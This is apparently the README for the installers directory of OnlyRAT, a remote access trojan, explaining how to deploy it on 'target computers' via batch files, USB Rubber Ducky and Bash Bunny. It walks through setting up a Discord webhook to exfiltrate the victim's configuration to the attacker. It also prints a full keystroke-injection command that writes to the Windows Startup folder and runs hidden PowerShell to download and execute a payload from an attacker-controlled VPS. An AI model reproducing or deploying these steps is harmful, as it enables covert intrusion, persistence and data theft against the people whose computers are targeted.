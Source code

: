 # Installers
This directory contains all the installers we can use to install the OnlyRAT tool on our target computers. 

## Creating a discord webhook
1. create a discord server by clicking the plus button in the bottom left
![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)
2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)
4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

## from-github.cmd
This is the default installer that most users will use to install OnlyRAT. This installer installs OnlyRAT from GitHub's raw data, allowing no user configuration. But the **connection can only be local** since there is no VPS to route traffic and forward ports from. Uses a discord webhook to send the configuration file back to the attacker. 

**Setup:**
1. In line 5 of `from-github.cmd`, replace `DISCORDWEBHOOK` with the webhook URL 
```bat
echo DISCORDWEBHOOK > lawFvVTikZ.txt
```

## from-vps.cmd
This installer will be favorited by security researchers, system administrators, and others. This installer utilizes a Virtual Private Server (VPS) or any computer accessible on the internet to route traffic to and from. Meaning with this installer, you can **access your target from anywhere**.

**Setup:**
1. Install OnlyRAT to your attacker computer
2. In a bash terminal, run:
```bash
onlyrat --setup
# or
onlyrat -s
```
    - This will take you through the process of setting up your VPS and attacker computer
3. On line 2 of `from-vps.cmd`, change `X.X.X.X` to your VPS IP Address or domain
```bat
set "EcSjRhAguo=X.X.X.X"
```
4. Deploy

## onlyduck-github.txt
This is an installer for OnlyRAT that uses the [USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe). This installer installs OnlyRAT from GitHub's raw data, allowing no user configuration. But the **connection can only be local** since there is no VPS to route traffic and forward ports from.

**Setup:**
1. In line 5 of `from-github.cmd`, replace `DISCORDWEBHOOK` with the webhook URL 
```bat
echo DISCORDWEBHOOK > lawFvVTikZ.txt
```
2. Encode
3. Load
4. Deploy

## onlyduck-vps.txt
This is an installer for OnlyRAT that uses the [USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe). This installer utilizes a Virtual Private Server (VPS) or any computer accessible on the internet to route traffic to and from. Meaning with this installer, you can **access your target from anywhere**.

**Setup:**
1. Install OnlyRAT to your attacker computer
2. In a bash terminal, run:
```bash
onlyrat --setup
# or
onlyrat -s
```
    - This will take you through the process of setting up your VPS and attacker computer
3. On line 11 of `onlyduck-vps.txt`, change `X.X.X.X` to your VPS IP Address or domain
```bat
STRING cmd /c set "EcSjRhAguo=X.X.X.X" && set "XNjFYKECht=%cd%" && set "YKHfpmMRoQ=C:/Users/%username%/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup" && cd %YKHfpmMRoQ% && powershell powershell.exe -windowstyle hidden "Invoke-WebRequest -Uri http://%EcSjRhAguo%/onlyrat/payloads/v1.cmd -OutFile wEaoFkNduy.cmd" && powershell ./wEaoFkNduy.cmd && cd "%XNjFYKECht%"
```
4. Load
5. Encode
6. Deploy

## OnlyBUGS-github
This is an installer for OnlyRAT that uses the [Bash Bunny](https://shop.hak5.org/products/bash-bunny). This installer installs OnlyRAT from GitHub's raw data, allowing no user configuration. But the **connection can only be local** since there is no VPS to route traffic and forward ports from.

**Setup:**
1. In line 5 of `from-github.cmd`, replace `DISCORDWEBHOOK` with the webhook URL 
```bat
echo DISCORDWEBHOOK > lawFvVTikZ.txt
```
2. Load
3. Deploy

## OnlyBUGS-vps
This is an installer for OnlyRAT that uses the [Bash Bunny](https://shop.hak5.org/products/bash-bunny). This installer utilizes a Virtual Private Server (VPS) or any computer accessible on the internet to route traffic to and from. Meaning with this installer, you can **access your target from anywhere**.

**Setup:**
1. Install OnlyRAT to your attacker computer
2. In a bash terminal, run:
```bash
onlyrat --setup
# or
onlyrat -s
```
    - This will take you through the process of setting up your VPS and attacker computer
3. On line 11 of `duckyscript.txt`, change `X.X.X.X` to your VPS IP Address or domain
```bat
STRING cmd /c set "EcSjRhAguo=X.X.X.X" && set "XNjFYKECht=%cd%" && set "YKHfpmMRoQ=C:/Users/%username%/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup" && cd %YKHfpmMRoQ% && powershell powershell.exe -windowstyle hidden "Invoke-WebRequest -Uri http://%EcSjRhAguo%/onlyrat/payloads/v1.cmd -OutFile wEaoFkNduy.cmd" && powershell ./wEaoFkNduy.cmd && cd "%XNjFYKECht%"
```
4. Load
5. Deploy